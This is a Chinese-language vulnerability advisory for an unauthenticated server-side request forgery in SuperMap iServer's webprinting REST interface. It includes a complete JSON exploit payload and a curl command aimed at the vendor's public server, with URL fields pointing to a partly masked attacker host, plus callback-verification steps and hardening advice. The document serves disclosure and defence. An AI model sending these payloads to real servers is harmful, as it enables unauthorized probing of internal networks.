



## 一、漏洞描述

SuperMap iServer 10i版本开始内置了一个web打印服务，将您在 Web 应用中制作的 Web 内容输出为可打印的文档。

webprinting接口存在未授权访问，且未对输入的picAsUrl/url等未进行白名单限制，导致webpringting会根据用户输入任意url进行请求从而造成ssrf漏洞，可造成内网穿透，危害内网安全。

 

## 二、漏洞涉及版本

 SuperMap iServer  >=10i版本（至最新版本）

 

## 三、漏洞证明

 以超图官网为例，访问

http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs。

上述链接存在未授权访问。

 

1、点击”创建打印任务”按钮，输入payload，其中URL和picAsURL替换成攻击url即可。

```
{
    "layoutOptions": {
        "templateName": "A4_landscape",
        "title": "主标题",
        "subTitle": "副标题",
        "author": "作者",
        "copyright": "版权信息",
        "northArrowOptions": {
        },
        "scaleBarOptions": {
            "scaleText": "比例尺"
        },
        "legendOptions": {
            "title": "图例",
            "customItems": [
                {
                    "name": "重要设置",
                },
                {
                    "name": "河流",
                    "picAsUrl": 
                        "http://39.xx.xx.46:80/test.html"               
                },
                {
                    "name": "主干道",
                    "picAsUrl": 
                        "http://39.xx.xx.46:80/test.html"
                }
            ]
        },
        "littleMapOptions": {
            "center": {
                "x": 12659780.84769,
                "y": 1630935.5331
            },
            "scale": 2.63157894736842E-08,
            "layers": [
                {
                    "layerType": "TILE",
                    "name": "China",
                    "url": "http://39.xx.xx.46:80/test.html"
                }
            ]
        }
    },
    "exportOptions": {
        "format": "pdf",
        "dpi": 96
    },
    "content": {
        "type": "WEBMAP",
        "value": {
            "maxScale": "1:144447.927",
            "level": 4,
            "center": {
                "x": 12024583.8595938,
                "y": 4101942.08146721
            },
            "layers": [
                {
                    "layerType": "TILE",
                    "name": "China",
                    "url": "http://39.xx.xx.46:80/test.html"
                }
            ],
            "description": "",
            "projection": "EPSG:3857",
            "minScale": "1:591658710.909",
            "title": "china_point",
            "version": "2.0.0"
        }
    }
} 
```

CURL命令

```
curl 'http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs.json' \
  -H 'Accept: */*' \
  -H 'Accept-Language: zh-CN,zh;q=0.9' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'Cookie: _ga=GA1.2.1837213580.1719394854; _ga_DXGT08VXTW=GS1.2.1719394857.1.1.1719395096.0.0.0; Hm_lvt_70fb8344cde640aa0e7a4f593e80b742=1719538116,1719886423' \
  -H 'Origin: http://support.supermap.com:8090' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://support.supermap.com:8090/iserver/services/webprinting/rest/webprinting/v1/jobs' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
  --data-raw $'{\n    "layoutOptions": {\n        "templateName": "A4_landscape",\n        "title": "主标题",\n        "subTitle": "副标题",\n        "author": "作者",\n        "copyright": "版权信息",\n        "northArrowOptions": {\n        },\n        "scaleBarOptions": {\n            "scaleText": "比例尺"\n        },\n        "legendOptions": {\n            "title": "图例",\n            "customItems": [\n                {\n                    "name": "重要设置",\n                },\n                {\n                    "name": "河流",\n                    "picAsUrl": \n                        "http://39.xx.xx.46:80/test.html"               \n                },\n                {\n                    "name": "主干道",\n                    "picAsUrl": \n                        "http://39.xx.xx.46:80/test.html"\n                }\n            ]\n        },\n        "littleMapOptions": {\n            "center": {\n                "x": 12659780.84769,\n                "y": 1630935.5331\n            },\n            "scale": 2.63157894736842E-08,\n            "layers": [\n                {\n                    "layerType": "TILE",\n                    "name": "China",\n                    "url": "http://39.xx.xx.46:80/test.html"\n                }\n            ]\n        }\n    },\n    "exportOptions": {\n        "format": "pdf",\n        "dpi": 96\n    },\n    "content": {\n        "type": "WEBMAP",\n        "value": {\n            "maxScale": "1:144447.927",\n            "level": 4,\n            "center": {\n                "x": 12024583.8595938,\n                "y": 4101942.08146721\n            },\n            "layers": [\n                {\n                    "layerType": "TILE",\n                    "name": "China",\n                    "url": "http://39.xx.xx.46:80/test.html"\n                }\n            ],\n            "description": "",\n            "projection": "EPSG:3857",\n            "minScale": "1:591658710.909",\n            "title": "china_point",\n            "version": "2.0.0"\n        }\n    }\n} ' \
  --insecure
```




3、在云主机启动80端口或者启用dnslog接口，然后点击创建打印服务，即可在云主机获取对应请求记录。

 

请求DNSlog平台

 

## 四、加固建议

1、禁止302跳转，或者没跳转一次都进行校验目的地址是否为内网地址或合法地址。

2、过滤返回信息，验证远程服务器对请求的返回结果，是否合法。

3、禁用高危协议，例如：gopher、dict、ftp、file等，只允许http/https

4、设置URL白名单或者限制内网IP

5、限制请求的端口为http的常用端口，或者根据业务需要治开放远程调用服务的端口

6、catch错误信息，做统一错误信息，避免黑客通过错误信息判断端口对应的服务